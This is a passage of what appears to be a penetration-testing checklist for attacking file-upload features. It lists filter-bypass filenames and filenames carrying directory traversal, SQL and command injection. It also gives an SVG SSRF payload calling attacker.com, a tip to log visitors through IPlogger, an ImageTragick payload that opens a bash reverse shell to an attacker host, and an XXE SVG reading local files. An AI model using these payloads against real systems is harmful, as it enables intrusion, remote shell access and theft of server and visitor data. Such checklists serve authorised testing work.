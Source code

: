         - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
    - Whitelisting Bypass
        - `file.jpg.php`
        - `file.php.jpg`
        - `file.php.blah123jpg`
        - `file.php%00.jpg`
        - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
        - `file.php%00`
        - `file.php%20`
        - `file.php%0d%0a.jpg`
        - `file.php.....`
        - `file.php/`
        - `file.php.\`
        - `file.php#.png`
        - `file.`
        - `.html`
    - Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might change the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved on some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```
